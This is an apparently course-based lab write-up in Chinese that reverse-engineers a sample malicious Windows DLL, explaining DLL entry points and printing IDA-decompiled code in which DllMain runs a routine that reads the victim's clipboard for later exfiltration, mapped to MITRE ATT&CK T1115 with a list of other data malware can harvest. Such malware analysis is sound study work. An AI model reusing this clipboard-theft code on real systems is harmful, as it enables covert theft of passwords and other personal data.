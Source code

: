 # Simple Reverse - 0x22(2023 Lab - WinMalware - Collect)
## Background
如果想要分析DLL，可以從以下三個地方切入
* _DllMainCRTStartup (DLL 載入和移除時的初始化與收尾)
    * DllMain / DllEntryPoint / CRT_INIT (function signature 相同)
    * 找有三個參數的 function call
    ![](https://hackmd.io/_uploads/Sk0GgCaz6.png)
    範例就大概像這樣，從`_DllMainCRTStartup`底下有`call _CRT_INIT`和`call DllEntryPoint`(`DllMain`在比較下面)
    ![](https://hackmd.io/_uploads/HklyZRTf6.png)
* Exported Functions
* TLS Callback
* [OpenClipboard](https://learn.microsoft.com/zh-tw/windows/win32/api/winuser/nf-winuser-openclipboard)
* [GetClipboardData](https://learn.microsoft.com/zh-tw/windows/win32/api/winuser/nf-winuser-getclipboarddata)
* [globalLock](https://learn.microsoft.com/zh-tw/windows/win32/api/winbase/nf-winbase-globallock)
* [\_itoa](https://learn.microsoft.com/zh-tw/cpp/c-runtime-library/reference/itoa-itow?view=msvc-170)
## Source Code
IDA解析的source code很常會出現明明沒有return value但還是自動建立的狀況，所以適時的刪除return value(Shift+DEL)是對分析比較好的做法
* DllMain
    ```cpp=
    BOOL __stdcall DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
    {
      if ( fdwReason == 1 )
      {
        MessageBoxA(0i64, "Reflective Dll Injection success. Remember to delete the persistence file", "eductf-lab", 0);
        my_main();    // 不重要的東西
        collect_and_exfiltrate();
      }
      return 1;
    }
    ```
* collect_and_exfiltrate
    ```cpp=
    void collect_and_exfiltrate(void)
    {
      PUCHAR pbInput; // [rsp+28h] [rbp-10h] BYREF

      pbInput = 0i64;
      collect_data(&pbInput);
      exfiltrate(pbInput);
    }
    ```
* collect_data
    ```cpp=
    void __fastcall collect_data(char **pbInput)
    {
      char *pbInput_1; // [rsp+28h] [rbp-10h] BYREF

      collect_get_clipboard_data(&pbInput_1);
      *pbInput = pbInput_1;
    }
    ```
* collect_get_clipboard_data
    ```cpp=
    void __fastcall collect_get_clipboard_data(LPVOID *pbInput)
    {
      HANDLE ClipboardData; // rax
      void *v3; // rsi
      int LastError; // eax
      char Buffer[34]; // [rsp+26h] [rbp-22h] BYREF

      if ( OpenClipboard(0i64) )
      {
        ClipboardData = GetClipboardData(1u);
        v3 = ClipboardData;
        if ( ClipboardData )
        {
          *pbInput = GlobalLock(ClipboardData);
          GlobalUnlock(v3);
        }
        else
        {
          LastError = GetLastError();
          _itoa(LastError, Buffer, 10);
        }
      }
      CloseClipboard();
    }
    ```
## Recon
目前要分析的重點著重在DllMain中，所以其他的切入點可以先不管，並且先聚焦在collect data身上。其實作者一開始就有把debug information都放在這邊，所以分析可以更順暢
1. 首先trace一下上面所有的code，會發現其實簡單到根本不用查MSDN也知道在幹嘛，就是把受害主機的剪貼簿打開，並取得這個剪貼簿的開頭指標，再回傳給`pbIntput`
2. 最後再傳給後續的exfiltrate function

:::info
目前的攻擊手法符合Mitre ATT&CK的[T1115](https://attack.mitre.org/techniques/T1115/)，剪貼簿中可能剛好有帳號、密碼、信用卡號之類的
除了剪貼簿，還能收集很多其他東西，像是：
* PDF、DOCX、XLSX、Email、Git source code
* SSH private key、Key logging、OS credential cache
* 麥克風、鏡頭、其他外接裝置
* 任何你想得到的資訊
:::
